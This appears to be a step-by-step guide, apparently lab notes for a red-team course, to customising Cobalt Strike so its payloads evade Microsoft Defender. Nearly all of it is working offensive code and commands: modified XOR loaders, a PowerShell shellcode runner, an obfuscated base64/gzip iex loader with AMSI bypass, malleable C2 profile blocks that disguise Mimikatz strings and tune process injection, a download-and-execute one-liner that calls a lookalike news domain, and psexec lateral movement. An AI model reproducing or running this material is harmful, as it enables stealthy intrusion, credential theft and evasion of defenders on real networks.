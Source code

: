 
### Artifacts

Open the artifacts folder (`arsenal-kit\kits\artifact`) within Visual Studio Code and open up `src-common/patch.c`

On line ~45 modify the for loop. **This is for the svc exe payloads.**
```c
x = length;
while(x--) {
  *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

On line ~116 modify the other for loop. **This is for the normal exe payloads.**
```c
int x = length;
while(x--) {
  *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

Save the changes (**File > Save**) and close the folder (**File > Close Folder**).

Run **build.sh** to build the new artifacts.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
```

>The stage size tends to vary between CS releases as features get added or removed from Beacon.  Always run build.sh without arguments first to see what the minimum stage sizes are.

Import the `artifact.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-artifacts\mailslot`

---

### Resources

Open the resource folder in the arsenal-kit and build new resources
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource &&./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
```

Open up the custom-resources folder in VS code

> Edit **template.x64.ps1** with the following

Rename **ALL**`func_get_proc_address` on line **3** to (Use Edit > Replace): 
```powershell
get_proc_address
```

Rename **ALL** `func_get_delegate_type` on line **10** to (Use Edit > Replace):
```powershell
get_delegate_type
```

Replace line **32** with:
```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```

> Now obfuscate **compress.ps1** 

Use Invoke-Obfuscate to create a unique obfuscated version of the script. Choose anyone except for string obfuscation because of the `%%DATA%%`

```powershell
ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
Invoke-Obfuscation

Invoke-Obfuscation> SET SCRIPTBLOCK [compress.ps1 contents]
```

Or use this plus the AMSI Bypass:
```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Import the `resources.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-resources\`

---

### Malleable C2

SSH into the Cobalt Strike instance and open up the profiles folder
```bash
cd /opt/cobaltstrike/profiles
```

Edit **default.profile** and add the following stage block:
```bash
stage {
   set userwx "false";
   set module_x64 "Hydrogen.dll";  # use a different module if you like
   set copy_pe_header "false";
}
```

Add the following post-ex block:
```bash
post-ex {
  set amsi_disable "true";
  set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
  set obfuscate "true";
  set cleanup "true";

  set pipename "dotnet-diagnostic-#####, ########-####-####-####-############";

  transform-x64 {
      strrep "ReflectiveLoader" "NetlogonMain";
      strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
      strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

      # Mimikatz evasion
      strrep "\\\\.\\pipe\\mimikatz" "\\\\.\\pipe\\rpcnet";
      strrep "powershell_reflective_mimikatz" "ps_shell_module";
      strrep "mimikatz(powershell)" "opseckat(pwsh)";
      strrep "mimikatz.log" "diagdata.log";
      strrep "mimikatz_x64.compressed" "binmod64.pack";
      strrep "mimikatz_dpapi_cache.ndr" "vault_cache.ndr";
      strrepex "Mimikatz" "ERROR kuhl_m_dpapi_chrome" "INFO dpapi_module";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_getUsersAndSamKey" "WARN lsa_getusers_samkey";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_getComputerAndSyskey" "INFO lsa_getcomputer_syskey";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_lsa_getHandle" "WARN lsa_gethandle";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_enumdomains_users" "WARN enum_domains_users";
      strrepex "Mimikatz" "ERROR mimikatz_doLocal" "INFO module_doLocal";
  }
}
```

Add the following process-inject block:
```bash
process-inject {
  execute {
      NtQueueApcThread-s;
      NtQueueApcThread;
      SetThreadContext;
      RtlCreateUserThread;
      CreateThread;
  }
}

process-inject {
  set allocator "NtMapViewOfSection";
  set min_alloc "16384";
  set startrwx "false";
  set userwx "false";

  execute {
    NtQueueApcThread-s;
    NtQueueApcThread;
    SetThreadContext;
    # intentionally removed CreateRemoteThread / RtlCreateUserThread
  }
}



```

Save changes and restart the Team Server
```powershell
sudo /usr/bin/docker restart cobaltstrike-cs-1
```

> If the container fails to restart properly use `sudo /usr/bin/docker logs cobaltstrike-cs-1` to see the profile errors.

---

### Test

Build new payloads:
- Go to **Payloads > Windows Stageless Generate All Payloads**

Test stageless payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\artifact64big.exe
```

Test PowerShell payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
```


Host a 64-bit PowerShell payload.
1. Go to **Site Management > Host File**
2. File: _C:\Payloads\http_x64.ps1_
3. Local URI: /test
4. Local Host: www.bleepincomputer.com

Verify that Defender is enabled and execute up on test host
```powershell
(Get-MpPreference).DisableRealtimeMonitoring

iex(iwr "http://www.bleepincomputer.com/deals" -useb)

http://www.bleepincomputer.com:80/debug
```

Verify Defender is on on remote host
```powershell
remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
```

Change `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Now lateral movement can be used with the service payload
```powershell
jump psexec64 lon-ws-1 smb
```